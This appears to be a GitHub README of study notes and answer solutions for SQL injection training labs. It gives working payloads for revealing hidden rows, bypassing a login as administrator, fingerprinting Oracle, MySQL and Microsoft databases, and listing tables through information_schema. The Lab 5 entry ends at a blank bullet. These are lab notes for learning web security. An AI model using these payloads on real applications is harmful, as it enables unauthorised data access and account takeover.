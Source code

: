 ## How to:

1. To test the DB: Use `DUAL` Table in Oracle.
2. Can perform SQLI without Union:
  - Manipulating WHERE clauses.
  - Commenting out the remaining query
  - Subqueries
3. To Test SQLi: 1st Determine the Column Numbers > 
> Union merge the query in the Existing query.
- <img width="300" alt="image" src="https://github.com/IOxCyber/EssentialsCy/assets/40174034/bd9e2d73-516e-4903-995d-871992768e89">
4. This table always exists: `information_schema.tables`, can be used to retrive the table_names, table_columns etc



## Solution:
- Lab 1: Retrieval of Hidden Data(Where): `Modify the category parameter, giving it the value '+OR+1=1--`
- Lab 2: SQL injection vulnerability allowing login bypass: `Modify the username parameter, giving it the value: administrator'--` or `enter ' OR 1=1-- in username & pwd field`
- Lab 3: Querying the database type and version on Oracle:
    - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+'NULL','NULL'+FROM+DUAL--`
    - Add the Payload in URL `'UNION+SELECT+banner,NULL+FROM+v$version--`

- Lab 4: Querying the database type and version on MySQL and Microsoft:
    - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+NULL+NULL#`,`# to Comment out in MySQL`
    - Add the Payload in URL 'Union+SELECT+@@version,NULL#

- Lab 5: listing the database contents on non-Oracle databases:
    - To know the table name `'Union+Select+table_name,NULL+FROM+information_schema.tables--`
    - 












